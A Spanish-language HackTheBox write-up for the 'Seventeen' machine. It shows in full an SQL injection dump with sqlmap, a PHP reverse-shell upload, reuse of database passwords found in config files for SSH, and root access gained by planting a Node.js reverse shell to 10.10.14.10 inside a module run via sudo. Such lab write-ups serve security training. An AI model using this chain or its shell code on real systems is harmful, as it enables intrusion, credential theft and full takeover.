



Resolución de la máquina Seventeen de la plataforma de HackTheBox
Iniciamos escaneando los puertos de la máquina con nmap
❯ nmap 10.10.11.165
Nmap scan report for 10.10.11.165
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
8000/tcp open http-alt
Si hacemos una petición con curl podemos ver el dominio seventeen.htb
❯ curl -s 10.10.11.165 | grep seventeen | html2text | head -n1
seventeen.htb
Buscando subdominios con gobuster podemos encontrar exam.seventeen.htb
❯ gobuster vhost -u seventeen.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t 100
===============================================================
[+] Threads: 100
[+] Url: http://seventeen.htb
[+] Wordlist: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: exam.seventeen.htb (Status: 200) [Size: 17375]
En la página podemos encontrar una inyección sql, con sqlmap podemos ver las bases de datos
❯ sqlmap -u "http://exam.seventeen.htb/?p=take_exam&id=1" --batch -dbs
<......................>
available databases [4]:
[*] db_sfms
[*] erms_db
[*] information_schema
[*] roundcubedb
Podemos dumpear el contenido de la base de datos db_sfms y encontramos credenciales
❯ sqlmap -u "http://exam.seventeen.htb/?p=take_exam&id=1" --batch -D db_sfms --dump
<...............>
Database: db_sfms
Table: student
[4 entries]
+---------+----+--------+---------+----------+----------------------------------------------------+-----------+
| stud_id | yr | gender | stud_no | lastname | password | firstname |
+---------+----+--------+---------+----------+----------------------------------------------------+-----------+
| 1 | 1A | Male | 12345 | Smith | 1a40620f9a4ed6cb8d81a1d365559233 | John |
| 2 | 2B | Male | 23347 | Mille | abb635c915b0cc296e071e8d76e9060c | James |
| 3 | 2C | Female | 31234 | Shane | a2afa567b1efdb42d8966353337d9024 (autodestruction) | Kelly |
| 4 | 3C | Female | 43347 | Hales | a1428092eb55781de5eb4fd5e2ceb835 | Jamie |
+---------+----+--------+---------+----------+----------------------------------------------------+-----------+
Podemos conectarnos al login de oldmanagement con el user id y la contraseña conseguida

Interesantemente podemos subir archivos, asi que subimos una reverse shell con php

Al hacerlo podemos ver el archivo php que subimos desde el panel de estudiante

Basta con invocarlo para obtener acceso como www-data en un contenedor
❯ curl http://seventeen.htb:8000/oldmanagement/files/31234/pwned.php
❯ sudo netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.165
www-data@a509a7be8b4b:~$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@a509a7be8b4b:~$
Revisando archivos de configuración podemos ver uno que contiene una contraseña
www-data@a509a7be8b4b:~/html/employeemanagement/system/process$ cat dbh.php
<?php
$servername = "localhost";
$dBUsername = "root";
$dbPassword = "2020bestyearofmylife";
$dBName = "ems";
$conn = mysqliconnect($servername, $dBUsername, $dbPassword, $dBName);
if(!$conn){
echo "Databese Connection Failed";
}
?>
www-data@a509a7be8b4b:~/html/employeemanagement/system/process$
Mirando el /etc/passwd podemos ver el usuario mark con una bash además de root
www-data@a509a7be8b4b:~$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
mark:x:1000:1000:,,,:/var/www/html:/bin/bash
www-data@a509a7be8b4b:~$
Podemos intentar usar estas credenciales para conectarnos por ssh y obtenemos el user
❯ ssh mark@10.10.11.165
mark@10.10.11.165's password: 2020bestyearofmylife
mark@seventeen:~$ id
uid=1001(mark) gid=1001(mark) groups=1001(mark)
mark@seventeen:~$ hostname -I
10.10.11.165 172.20.0.1 172.17.0.1 172.18.0.1 172.19.0.1
mark@seventeen:~$ cat user.txt
7d5*************************a7b
mark@seventeen:~$
De nuevo revisando archivos de configuración ahora en /opt obtenemor otra contraseña
mark@seventeen:/opt/app/node_modules/db-logger$ cat logger.js
var mysql = require('mysql');
var con = mysql.createConnection({
host: "localhost";
user: "root";
password: "IhateMathematics123#";
database: "logger"
});
function log(msg) {
con.connect(function(err) {
if (err) throw err;
var date = Date();
var sql = `INSERT INTO logs (time, msg) VALUES (${date}, ${msg};`;
con.query(sql, function (err, result) {
if (err) throw err;
console.log("[+] Logged");
});
});
};
mark@seventeen:/opt/app/node_modules/db-logger$
Mirando los usuarios con una bash esta vez en el equipo real nos encontramos con kavi
mark@seventeen:~$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
kavi:x:1000:1000:kavi:/home/kavi:/bin/bash
mark:x:1001:1001:,,,:/home/mark:/bin/bash
mark@seventeen:~$
Con las credenciales obtenidas podemos conectarnos por ssh como el usuario kavi
❯ sshpass -p IhateMathematics123# ssh kavi@10.10.11.165
kavi@seventeen:~$ id
uid=1000(kavi) gid=1000(kavi) groups=1000(kavi)
kavi@seventeen:~$ hostname -I
10.10.11.165 172.20.0.1 172.17.0.1 172.18.0.1 172.19.0.1
kavi@seventeen:~$
Mirando privilegios a nivel de sudoers podemos ver un script en bash en /opt
kavi@seventeen:~$ sudo -l
[sudo] password for kavi: IhateMathematics123#
Matching Defaults entries for kavi on seventeen:
env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/bin\:/bin\
User kavi may run the following commands on seventeen:
(ALL) /opt/app/startup.sh
kavi@seventeen:~$
Al ejecutarlo vemos que instala del módulo loglevel e inicia una app
kavi@seventeen:~$ sudo /opt/app/startup.sh
[=] Checking for db-logger
[+] db-logger already installed
[=] Checking for loglevel
[+] Installing loglevel
/opt/app
├── loglevel@1.8.0
└── mysql@2.18.1
[+] Starting the app
Podemos ver que crea un directorio loglevel y en las librerias un archivo js
kavi@seventeen:/opt/app/node_modules/loglevel/lib$ ls
loglevel.js
kavi@seventeen:/opt/app/node_modules/loglevel/lib$
Ya que tenemos permiso de escritura, podemos meter una reverse shell en nodejs
kavi@seventeen:/opt/app/node_modules/loglevel/lib$ cat loglevel.js
/*
* loglevel - https://github.com/pimterry/loglevel
*
* Copyright (c) 2013 Tim Perry
* Licensed under the MIT license.
*/
(function(){
var net = require("net"),
cp = require("child_process"),
sh = cp.spawn("/bin/bash", []);
var client = new net.Socket();
client.connect(443, "10.10.14.10", function(){
client.pipe(sh.stdin);
sh.stdout.pipe(client);
sh.stderr.pipe(client);
});
return /a/; // Prevents the Node.js application from crashing
})();
Basta con correr de nuevo el script para recibir nuestra reverse shell como root
kavi@seventeen:~$ sudo /opt/app/startup.sh
[=] Checking for db-logger
[+] db-logger already installed
[=] Checking for loglevel
[+] loglevel already installed
[+] Starting the app
❯ sudo netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.165
script /dev/null -c bash
Script started, output log file is '/dev/null'.
root@seventeen:/opt/app# id
uid=0(root) gid=0(root) groups=0(root)
root@seventeen:/opt/app# hostname -I
10.10.11.165 172.20.0.1 172.17.0.1 172.18.0.1 172.19.0.1
root@seventeen:/opt/app# cd /root
root@seventeen:~# cat root.txt
f76**************************bb2
root@seventeen:~#
Tener en cuenta que ha habido algunos cambios en la máquina, será actualizado pronto